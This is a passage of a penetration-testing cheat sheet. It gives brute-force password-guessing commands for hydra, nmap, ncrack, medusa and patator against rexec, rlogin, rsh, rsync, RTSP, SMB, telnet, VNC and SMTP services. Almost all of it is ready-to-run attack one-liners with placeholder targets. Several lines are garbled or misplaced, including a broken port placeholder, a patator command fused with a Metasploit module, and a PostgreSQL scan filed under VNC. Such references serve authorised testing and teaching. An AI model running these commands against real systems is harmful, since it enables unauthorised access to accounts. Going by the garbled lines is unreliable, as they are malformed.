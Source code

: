 hydra -l <username> -P <password_file> rexec://<Victim-IP> -v -V

### 

Rlogin[](#rlogin)

hydra -l <username> -P <password_file> rlogin://<Victim-IP> -v -V

### 

Rsh[](#rsh)

hydra -L <Username_list> rsh://<Victim_IP> -v -V

[http://pentestmonkey.net/tools/misc/rsh-grind​](http://pentestmonkey.net/tools/misc/rsh-grind%E2%80%8B)

### 

Rsync[](#rsync)

nmap -sV --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 <IP>

### 

RTSP[](#rtsp)

hydra -l root -P passwords.txt <IP> rtsp

### 

SMB[](#smb)

nmap --script smb-brute -p 445 <IP>

hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1

### 

Telnet[](#telnet)

hydra -l root -P passwords.txt [-t 32] <IP> telnet

ncrack -p 23 --user root -P passwords.txt <IP> [-T 5]

medusa -u root -P 500-worst-passwords.txt -h <IP> -M telnet

### 

VNC[](#vnc)

hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vnc

medusa -h <IP> –u root -P /root/Desktop/pass.txt –M vnc

ncrack -V --user root -P /root/Desktop/pass.txt <IP>:>POR>T

patator vnc_login host=<IP> password=FILE0 0=/root/Desktop/pass.txt –t 1 –x retry:fgep!='Authentication failure' --max-retries 0 –x quit:code=0use auxiliary/scanner/vnc/vnc_login

nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>

### 

SMTP[](#smtp)

hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V